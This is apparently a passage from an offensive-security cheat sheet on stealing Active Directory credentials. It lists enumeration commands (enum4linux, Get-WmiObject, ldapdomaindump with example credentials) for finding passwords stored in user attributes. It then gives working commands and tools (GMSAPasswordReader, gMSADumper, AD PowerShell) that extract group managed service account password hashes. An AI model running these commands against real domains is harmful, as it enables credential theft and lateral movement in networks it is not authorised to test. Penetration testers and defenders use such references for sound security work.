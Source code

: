 There are 3-4 fields that seem to be common in most AD schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

```powershell
enum4linux | grep -i desc

Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
```

or dump the Active Directory and `grep` the content.

```powershell
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```

### Reading GMSA Password

> User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

#### GMSA Attributes in the Active Directory 
* `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) - stores the security principals that can access the GMSA password.
* `msds-ManagedPassword` - This attribute contains a BLOB with password information for group-managed service accounts.
* `msDS-ManagedPasswordId` - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* `msDS-ManagedPasswordInterval` - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


#### Extract NT hash from the Active Directory

* [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#)
  ```ps1
  # https://github.com/rvazarkar/GMSAPasswordReader
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)
   ```powershell
  # https://github.com/micahvandeusen/gMSADumper
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```
  
* Active Directory Powershell
  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module
